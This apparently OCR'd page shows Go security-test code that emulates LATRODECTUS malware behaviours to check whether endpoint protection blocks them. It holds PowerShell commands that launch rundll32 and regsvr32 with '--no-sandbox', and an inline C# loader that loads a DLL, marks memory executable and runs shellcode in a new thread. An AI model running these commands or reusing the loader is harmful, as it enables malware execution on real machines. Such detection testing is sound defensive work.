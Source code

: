 ```go
	exclusionCommands := []string{
		"powershell.exe -Command Invoke-Expression -Command {Start-Process rundll32.exe -ArgumentList '--enable-speech-input --enable-media-stream --no-sandbox'}",
		"powershell.exe -Command Invoke-Expression -Command {Start-Process regsvr32.exe -ArgumentList '--no-sandbox'}",
	}

	for _, command := range exclusionCommands {
		executeCommand(command)
	}

	Endpoint.Stop(101) // UNPROTECTED
}
```

the script detects network-based behaviours of the malware, like unusual memory execution patterns. it can be thought of as an extension of the previous script.

### shellcode execution from low reputation module

`LATRODECTUS` can execute shellcode from modules that have low or unknown reputations. 

```go
func test() {
	executeCommand := func(command string) {
		if !Endpoint.IsAvailable("cmd.exe") {
			Endpoint.Say("command execution not available")
			Endpoint.Stop(126) //PROTECTED
		}

		out, err := exec.Command("cmd.exe", "/C", command).CombinedOutput()
		if err != nil {
			Endpoint.Say(fmt.Sprintf("failed to execute command: %s", string(out)))
			Endpoint.Stop(1) // ERROR
		}

		Endpoint.Say(fmt.Sprintf("successfully executed command: %s", command))

		if strings.Contains(string(out), "Access Denied") {
			Endpoint.Say("process execution blocked")
			Endpoint.Stop(126) // PROTECTED
		}
	}

	// loading dll with low/unknown rep
	dllPath := "C:\\Users\\Public\\lowrep.dll"
	executeCommand(fmt.Sprintf("powershell.exe -Command New-Item -Path %s -ItemType File", dllPath))

	// process execution [loading DLL + executing shellcode]
	commands := []string{
		fmt.Sprintf("powershell.exe -Command Invoke-Expression -Command {Add-Type -TypeDefinition @\"using System;using System.Runtime.InteropServices;public class Win32{[DllImport(\\\"%s\\\", SetLastError=true)]public static extern IntPtr LoadLibrary(string lpLibFileName);[DllImport(\\\"%s\\\", SetLastError=true)]public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);[DllImport(\\\"kernel32.dll\\\")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);public delegate IntPtr GetShellcode();[DllImport(\\\"kernel32.dll\\\")]public static extern IntPtr CreateThread(IntPtr, lpThreadAttributes, UIntPtr dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);public static void Main(){IntPtr hModule = LoadLibrary(\\\"%s\\\");IntPtr procAddr = GetProcAddress(hModule, \\\"GetShellcode\\\");GetShellcode shellcode = (GetShellcode)Marshal.GetDelegateForFunctionPointer(procAddr, typeof(GetShellcode));IntPtr addr = shellcode();uint oldProtect;VirtualProtect(addr, (UIntPtr)0x1000, 0x40, out oldProtect);CreateThread(IntPtr.Zero, UIntPtr.Zero, addr, IntPtr.Zero, 0, out _);}}\"@;[Win32]::Main()}", dllPath, dllPath, dllPath),
```